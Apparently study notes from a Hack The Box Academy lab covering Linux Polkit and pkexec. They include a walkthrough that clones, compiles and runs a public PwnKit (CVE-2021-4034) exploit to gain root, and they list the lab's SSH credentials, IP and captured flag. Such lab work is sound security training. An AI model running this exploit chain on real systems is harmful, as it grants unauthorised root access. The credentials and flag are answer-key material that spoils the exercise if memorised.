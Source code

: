 # Polkit

> [!info] What is Polkit?
> It is a Linux service that allows user software and system components to communicate with each other if the user software is allowed to communicate as well.
> Custom rules can be placed in /etc/polkit-1/localauthority/50-local.d with the file extension .pkla
> Local authority rules can be used to grant or revoke user and group permissions

## TOC
- [File Groups](file-groups)
- [pkexec pkaction pkcheck](pkexec-pkaction-pkcheck)
- [Privilege Escalation](privilege-escalation)

### File Groups

Polkit works with two file groups:
1 actions/policies located @ 
``` python
(/usr/share/polkit-1/actions)
```
2 rules located @
```python
/usr/share/polkit-1/rules.d
```



### pkexec pkaction pkcheck

`pkexec` - runs a program with the rights of another user or with root rights
`pkaction` - can be used to display actions
`pkcheck` - this can be used to check if a process is authorized for a specific action

Example
```
pkexec -u <user> <command>
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

###  Privilege Escalation

pkexec memory corruption vulnerability via [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) aka [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

Exploit

```python
git clone https://github.com/arthepsy/CVE-2021-4034.git; cd CVE-2021-4034; gcc cve-2021-4034-poc.c -o poc; ./poc; id
```

## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.113
```

SSH
```python
ssh htb-student@10.129.205.113
```

### Clone the CVE git folder
```python
git clone https://github.com/arthepsy/CVE-2021-4034.git
```

### Copy the directory to the target
```python
scp -r CVE-2021-4034 htb-student@10.129.205.113:/home/htb-student
```

### Root Flag

Compile binary, execute binary and get flag
```python
htb-student@ubuntu:~/CVE-2021-4034$ gcc cve-2021-4034-poc.c -o poc
htb-student@ubuntu:~/CVE-2021-4034$ ./poc
# id
uid=0(root) gid=0(root) groups=0(root),1001(htb-student)
# find / -type f -name flag.txt -exec cat {} \; 2>/dev/null
HTB{p0Lk1tt3n}
```
